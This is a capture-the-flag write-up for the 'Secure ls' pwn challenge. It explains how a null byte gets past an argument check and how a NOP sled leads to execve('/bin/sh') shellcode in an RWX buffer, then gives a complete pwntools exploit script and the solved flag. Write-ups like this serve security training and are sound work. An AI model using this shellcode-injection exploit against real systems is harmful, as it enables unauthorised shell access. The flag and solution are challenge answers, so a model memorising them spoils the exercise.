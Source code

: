 # Secure ls

## Challenge

The program is a wrapper for the `ls` utility.

We are allowed to pass 0 or 1 options to the program under normal conditions.
These options are restricted to `-a` and `-l`.

The program will then print a list of files/directories in the current working directory.
Depending on our options, this may or may not include dotfiles and may or may not be in a list.

### Mitigations

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

## Solution

Notably, NX is disabled and there are RWX segments, which is unusual for modern binaries.

If we look at the `err` macro, we can see that it simply calls its argument as a function.
The macro is being used to execute code in the buffer at a random offset if the `l` option is
included.

We can pass the `arglen` check in `main` by adding a null byte to our input after our options.
We need to include both options to satisfy `arglen == 3`, as normally the third character would be a
newline, however we cannot include one as this would end our input.

After the null byte, we can include around 256 null bytes.
This nopsled ensures that the code executed by the macro will eventually reach our shellcode.
After the nopsled, we can write a standard `execve("/bin/sh", NULL, NULL)` shellcode on the buffer.

The program will begin executing code on the nopsled, which will lead it to our shellcode.
This will spawn a shell which we can use to read the flag.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host srv3.momandpopsflags.ca --port 8754 lS
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('lS')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'srv3.momandpopsflags.ca'
port = int(args.PORT or 8754)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX disabled
# PIE:      PIE enabled
# RWX:      Has RWX segments

io = start()

payload = flat({
    0x0: b'-al\0',
    0x100: asm(shellcraft.sh()),
    }, filler=asm(shellcraft.nop()))
io.sendlineafter(b"Enter flags you would like to use with lS: ", payload)

io.interactive()
```

## Flag

```
magpie{sh3llc0d3_b3_sl1pp1n}
```
